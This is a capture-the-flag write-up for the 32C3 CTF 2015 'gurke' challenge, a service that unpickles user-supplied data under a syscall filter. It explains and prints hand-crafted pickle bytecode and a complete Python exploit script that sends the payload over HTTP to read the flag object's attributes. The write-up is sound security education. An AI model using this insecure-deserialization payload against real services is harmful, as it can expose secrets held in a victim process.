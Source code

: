 # 32C3 CTF 2015 : gurke

**Category:** Misc
**Points:** 300
**Solves:** 111
**Description:**

> Non-standard [gurke](./gurke): <https://32c3ctf.ccc.ac/uploads/gurke> Talk to it via HTTP on <http://136.243.194.43/>.


## Write-up

"It's not a standard gurke" is quite accurate.
First it creates a flag object, which contains the flag in the "flag" attribute.
Then it establishes a syscall-filter which is quite restrictive.
Finally it does what we were looking for: A pickle.load with user supplied data:

    data = os.read(0, 4096)
    try:
      res = pickle.loads(data)
      print 'res: %r\n' % res
    except Exception as e:
      print >>sys.stderr, "exception", repr(e)


However the syscall-filter prevents us from suppling a pickled object with a malicious
__reduce__ function, instead we have to get hold of the "flag" object's flag attribute.

Therefore we have to write a little pickle bytecode:

    cinspect\ngetmembers\n(c__main__\nflag\ntR.\n

Which is based on the opcode overview found here:
http://svn.python.org/projects/python/trunk/Lib/pickle.py

The pickle interpreter works stack-based and the code above does the following (pseudocode):

    push inspect.getmembers
    push __main__.flag
    pop func
    pop arg
    push (func, arg)
    call func(arg)
    ret

Which basically calls inspect.getmembers(flag).
The output will include the flag attribute and it's value.

The complete exploit:

    import urllib, urllib2
    import re
    url = 'http://136.243.194.43/'
    # pickle bytecode
    # c:module:function pushes object on the stack
    # (: push mark object
    # t:  pop two top most stack elements + create tuple of them + push tuple
    # R: call callable top most stack element
    # .: rerturn
    req = urllib2.Request(url, data="cinspect\ngetmembers\n(c__main__\nflag\ntR.\n", headers={'Content-type': 'application/python-pickle'})
    response = urllib2.urlopen(req)
    the_page = response.read()
    flag = re.findall("32c3_.{25}", the_page)[0]
    print "flag: " + flag


## Other write-ups and resources

* <https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version>
* <http://blukat29.github.io/2015/12/32c3ctf-gurke/>
* <https://github.com/krx/CTF-Writeups/tree/master/32C3%202015/misc300%20-%20gurke>
* <http://nopat.ch/2015/12/29/32c3ctf-misc-gurke/>
* <http://katc.hateblo.jp/entry/2015/12/30/154329>
* <https://irq5.io/2015/12/30/32c3-ctf-write-up-gurke/>
* <http://nandynarwhals.org/2015/12/31/32c3ctf-gurke-misc-300/>
* <http://v0ids3curity.blogspot.in/2015/12/32c3-ctf-misc-300-gurke.html?m=0>
* <http://pastebin.com/JikU89uJ>
